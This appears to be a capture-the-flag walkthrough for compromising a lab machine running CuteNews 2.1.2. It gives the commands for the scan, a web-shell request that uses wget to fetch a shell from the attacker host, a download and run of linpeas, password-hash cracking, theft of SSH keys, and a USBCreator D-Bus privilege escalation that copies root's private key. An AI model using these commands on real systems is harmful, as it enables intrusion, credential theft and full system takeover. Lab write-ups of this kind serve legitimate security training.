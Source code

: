 # Passage

## Enumeration

### Scan Report

```text
Host is up (0.17s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Port - 80 

**Dirbuster Report**

![](../../../.gitbook/assets/image%20%2872%29.png)

Cute News seems interesting.

![](../../../.gitbook/assets/image%20%2856%29.png)

**CuteNews Version: 2.1.2**

\*\*\*\*

## **Exploitation**

searchsploit cutenews

```text
CuteNews 2.1.2 - 'avatar' Remote Code Execution (Metasploit | php/remote/46698.rb
CuteNews 2.1.2 - Arbitrary File Deletion                    | php/webapps/48447.txt
CuteNews 2.1.2 - Authenticated Arbitrary File Upload        | php/webapps/48458.txt
CuteNews 2.1.2 - Remote Code Execution                      | php/webapps/48800.py
```

Lets run 4th Exploit

It created a user and now you can access the file in browser. 

**Uploading shell** 

```text
http://10.10.10.206/CuteNews/uploads/avatar_9vNU22mK3t_9vNU22mK3t.php?cmd=wget%20http://10.10.14.12:8000/shell2.php
```



## **Post Exploitation**

### **Full TTY**

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### **Current User**

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### **LinPeas**

```bash
cd /tmp
wget htt[://10.10.14.12:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### Nothing much interesting...

Search for password or csome configurations in www/html folder

```bash
find /var/www/html/CuteNews | grep -i password
find /var/www/html/CuteNews | grep -i database
find /var/www/html/CuteNews | grep -i sql
.
.
.
```

Users folder has some interesting dta which is base64 encoded

```bash
for i in $(find . -name "*.php" ); do tail -1 $i | base64 -d; echo; done;
```

Paul is a user of machine. Crack his obtained SHA2-256

```bash
hashcat -m 1400 -a 0 hash ~/PenetrationTesting/tools/rockyou.txt
```

Switch to paul from www-data

```bash
su paul
```

### User Flag

```bash
cat /home/paul/user.txt
```



### Check SSH Keys

```bash
cat /home/paul/.ssh/authorized_keys
```

![](../../../.gitbook/assets/image%20%2839%29.png)

This key is for Nadav. Generating public key to access using Nadav's account.



Download this key and login via ssh.

find usb creator reference in viminfo...



Check exploits: [https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)

```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /home/nadav/id_rsa true
()
```

```bash
ssh-keygen -y -f id_rsa
```

This gives us the key for SSH of root. we use it and get the flag.

